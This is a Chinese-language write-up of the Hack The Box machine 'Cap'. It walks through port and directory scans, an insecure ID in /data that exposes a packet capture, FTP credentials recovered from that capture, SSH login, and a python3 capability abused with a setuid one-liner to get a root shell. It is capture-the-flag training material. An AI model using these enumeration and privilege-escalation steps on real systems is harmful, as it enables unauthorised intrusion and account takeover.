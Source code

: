 # Cap Writeup
###### tags: `htb`
> URL : https://app.hackthebox.eu/machines/351

IP : 10.10.10.245

## Recon
- 剛開始先掃 Port
    - `rustscan -a 10.10.10.245 -r 1-65535`
        - ![](https://i.imgur.com/4gU7VjE.png)
    - `nmap -A -p21,22,80 10.10.10.245`
        - ![](https://i.imgur.com/X9G4Ex0.png)
    - 觀察有開的 port
        - 22
        - 21 : vsFTPd 3.0.3
        - 80
- 掃路徑
    - `python3 dirsearch.py -u http://10.10.10.245/`
    - ![](https://i.imgur.com/VMXpQXN.png)
    - 基本上都還是跳轉回首頁，沒什麼 QQ
- 觀察首頁
    - ![](https://i.imgur.com/CEJGwJX.png)
- 觀察下載的 `/data` 發現預設是從 2 開始
    - 嘗試改 `1` 會出現空白
    - 嘗試改 `0`
        - http://10.10.10.245/data/0
        - 可以下載到一包 pcap 檔案
- 分析 pcap 檔案
    - ![](https://i.imgur.com/zTczoQL.png)
    - 可以找到 ftp 的登入帳密
        - `nathan`
        - `Buck3tH4TF0RM3!`

## 進入系統
- 直接 ssh 連上
    - ![](https://i.imgur.com/df5oKQ6.png)
- 取得 user flag
    - ![](https://i.imgur.com/0csJWzg.png)

## 提權
- 準備 LinEnum
    - ![](https://i.imgur.com/l2wJjWi.png)
- 執行 LinEnum
    - `bash LinEnum.sh`
    - ![](https://i.imgur.com/L9Nzc9m.png)
- 發現 python3 有 capability
    - ![](https://i.imgur.com/T9C0VOz.png)
- GTFOBins 尋找 Py capability 解法
    - https://gtfobins.github.io/gtfobins/python/#capabilities
    - `/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'`
- 取得 Root Shell 與 Flag
    - ![](https://i.imgur.com/Hq1HAFS.png)
